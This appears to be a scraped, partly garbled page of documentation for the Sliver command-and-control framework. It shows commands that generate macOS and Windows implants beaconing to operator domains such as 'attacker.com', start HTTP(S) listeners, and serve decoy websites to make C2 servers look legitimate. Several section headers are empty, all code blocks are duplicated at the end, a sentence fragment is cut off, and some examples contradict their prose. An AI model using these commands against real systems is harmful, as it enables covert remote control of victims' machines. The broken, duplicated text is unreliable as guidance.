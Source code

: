 ## Generate the Implant
#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains
You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will loop across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:
```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### URL Prefixes and Other Options
Some additional options may be passed to the `--http` C2 flag such as URL path prefixes. Sliver's C2 request URLs are randomly generated as described below, however the operator may specify a path to prepend to every request's path, this can be useful when leveraging HTTP re-directors, etc. To add a URL prefix simply add a path to the domain as shown below:
```
sliver > generate --http example.com/foo/bar

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### Proxies
#### Proxy Configuration
#### NTLM/Kerberos Proxy Authentication
## Start the Listener
To start an HTTP listener use the `http` command, with no parameters this will start a listener on port 80 and respond to any domain (i.e., HTTP `Host:`) that comes in:
```
sliver > http
```

You can optionally restrict the listener to only respond to a specific domain using the `--domain` flag, currently each listener can only accept a single domain (but you can start any number of listeners you want):
```
sliver > http --domain example.com
```

## Static Content
Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command (see `websites --help`):
```
sliver > http --website fake-blog --domain example.com
```

To use your website with an HTTP(S) listener, specify it using `--website` when you start the listener:
```
sliver > https --domain example.com --lets-encrypt
```

## SSL/TLS Certificates
By default when using the `https` listener Sliver will simply generate a random self-signed certificate. However, other options do exist. The `https` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.
```
sliver > https --domain example.com --cert ./cert.pem --key ./key.pem --website fake-blog
```

`
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
`

`
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
`

`
sliver > generate --http example.com/foo/bar

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
`

`
sliver > http
`

`
sliver > http --domain example.com
`

`) and response's content. Currently we don't support any regex matching for paths, it has to be an exact match, so keep that in mind if you're linking to content.

**Note:** C2 related messages are identified, intercepted, and responded to prior to checking for user-provided `

`
sliver > http --website fake-blog --domain example.com
`

`
sliver > https --domain example.com --lets-encrypt
`

`
sliver > https --domain example.com --cert ./cert.pem --key ./key.pem --website fake-blog
`

